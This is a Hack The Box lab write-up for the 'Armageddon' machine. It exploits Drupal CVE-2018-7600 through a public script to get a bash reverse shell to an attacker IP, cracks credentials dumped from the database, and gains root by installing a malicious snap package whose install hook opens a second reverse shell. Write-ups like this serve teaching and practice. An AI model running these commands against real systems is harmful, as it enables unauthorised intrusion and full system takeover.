 ```yaml
---
title:  "Hack The Box - Armageddon"
description: This is the one blog post to rule them all
categories: [drupal, snap, cve-2018-7600]
tags: [Hackthebox, Infosec, Linux] 
imageid: /assets/images/armageddon/Pasted image 20210424223946.png
published: false
---
```

![](/assets/images/armageddon/Pasted image 20210424223946.png#thumbnail)

this box very straigh forward from foothold because only 2 ports open contains ssh and http. Protocol HTTP based on Drupal on target site include robots.txt, so im gonna put this on nikto for finding vulnerable. If needed im going to find version for drupal. Or you can use `whatweb` command for definition site, sometimes this tools revealed an information.

## Portscan
---
```sql
22/tcp open  ssh
| ssh-hostkey: 
|   2048 82:c6:bb:c7:02:6a:93:bb:7c:cb:dd:9c:30:93:79:34 (RSA)
|   256 3a:ca:95:30:f3:12:d7:ca:45:05:bc:c7:f1:16:bb:fc (ECDSA)
|_  256 7a:d4:b3:68:79:cf:62:8a:7d:5a:61:e7:06:0f:5f:33 (ED25519)
80/tcp open  http
|_http-generator: Drupal 7 (http://drupal.org)
| http-robots.txt: 36 disallowed entries (15 shown)
| /includes/ /misc/ /modules/ /profiles/ /scripts/ 
| /themes/ /CHANGELOG.txt /cron.php /INSTALL.mysql.txt 
| /INSTALL.pgsql.txt /INSTALL.sqlite.txt /install.php /INSTALL.txt 
|_/LICENSE.txt /MAINTAINERS.txt
|_http-title: Welcome to  Armageddon |  Armageddon
```


## Reconaissance
---
after doing research i found in this link `http://10.10.10.233//profiles/testing/modules/drupal_system_listing_compatible_test/drupal_system_listing_compatible_test.info`, this link contains what version this target used.

![](/assets/images/armageddon/Pasted image 20210422142322.png)


Exploit patched on CVE-2018-7600 with Exec code as flaws, you can read this information in [here](https://www.cvedetails.com/cve/CVE-2018-7600/). Before reverse shell im gonna check it using exploit that you can find [here](https://github.com/pimps/CVE-2018-7600) with command ping and combine with tcpdump tools for catch hit back from target.

![](/assets/images/armageddon/Pasted image 20210422143546.png)

after get hit back from target, prepare for reverse shell using bash or something else but firstly im doing bash for reverse back. here's command below for execution :

`python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c "bash -i >& /dev/tcp/10.10.14.95/9000 0>&1"`

![](/assets/images/armageddon/Pasted image 20210422144019.png)

after long research finally i found a password on settings.php drupal or you can searching on google about this file, i used mysqldump command for getting the output file then sending into webserver for further analyze this file.

![](/assets/images/armageddon/Pasted image 20210422152959.png)

this below my dump sql file, long short story i able to found the salt password for user brucetherealadmin, you can check on /etc/passwd for this user.

![](/assets/images/armageddon/Pasted image 20210422155300.png)

here's the salt password :

![](/assets/images/armageddon/Pasted image 20210422155643.png)

using johntheripper will revealed the password

![](/assets/images/armageddon/Pasted image 20210422155746.png)

from now we able to login via SSH and grab user.txt.
![](/assets/images/armageddon/Pasted image 20210422155846.png)

## Privilege Escalation
---

run sudo command will determine how to gain root access.
![](/assets/images/armageddon/Pasted image 20210422160117.png)

For doing this escalation basiclly we need to build package using [fpm](https://github.com/jordansissel/fpm) , this tool make it us easy to generate native package such as deb,snap,etc.

you can install it with list command below

```bash
gem install fpm
```

this script below only execute on host, im gonna use target to execute my payload and give shell back into host.

```bash
mkdir -p meta/hooks
echo "bash /dev/shm/unknown" >> /meta/hooks/install
chmod +x meta/hooks/install
fpm -n unknown dir -t snap -a all meta
```

![](/assets/images/armageddon/Pasted image 20210422175834.png)

now on target make a payload with reverse using bash script and makesure listener already start.

```bash
#in terminal
cd /dev/shm
echo bash -i >& /dev/tcp/10.10.14.95/9001 0>&1" > unknown
```

last but not least you have to send this malicious package into target and you will be get hit back as root.

This command below will installed the package using snape.

```bash
sudo snap install unknown_1.0_all.snap --devmode --dangerous
```

![](/assets/images/armageddon/Pasted image 20210422182851.png)


``

### Referencess
---
```sql
https://www.tenable.com/plugins/was/98559
https://github.com/pimps/CVE-2018-7600
https://gtfobins.github.io/gtfobins/snap/
```